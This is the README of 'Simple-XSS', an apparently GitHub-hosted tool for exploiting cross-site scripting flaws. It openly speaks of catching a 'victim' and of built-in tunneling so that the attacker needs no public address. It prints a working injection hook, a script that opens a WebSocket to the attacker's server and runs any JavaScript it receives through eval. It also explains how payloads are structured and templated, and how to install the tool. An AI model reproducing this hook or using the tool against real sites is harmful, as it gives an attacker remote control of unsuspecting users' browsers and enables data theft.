

# Simple-XSS

<p align="center">
  
</p>

<a href="https://github.com/CrazyProger1/Simle-XSS/releases/download/V0.1/Simle-XSS-buildV0.1.exe"></a>
<a href="https://github.com/CrazyProger1/Simle-XSS/blob/master/LICENSE"></a>
<a href="https://github.com/CrazyProger1/Simle-XSS/releases/latest"></a>

Simple-XSS is a multiplatform cross-site scripting (XSS) vulnerability exploitation tool. This application will help you
create a hook that can easily
and reliably catch a client by downloading a payload to their browser and executing it. You don't even need a white IP
for this because the application will take care of tunneling the connection between you and the victim.

## Usage

_To run application see [installation](#Installation) section._

### Hook

> _Hooks folder: [hooks](hooks)_

**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}');
c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about
this below._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

### Templating

**Built-in objects** is an objects passed into hook & payload main files
using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

#### Environment

- public_url - public address of WebSocket server

#### Metadata

**package** - hook or payload

- **name** - name of package
- **author** - package author
- **version** - version of package
- **description** - package description

If you need to use some variable, just use such construction: {{object.variable}}.
For example:

```
alert('{{metadata.name}} - V{{metadata.version}}')
```

The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical


### WEB


### Command-Line


## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

> Use `--help` argument to get help.

### Linux

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

> Use `--help` argument to get help.

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
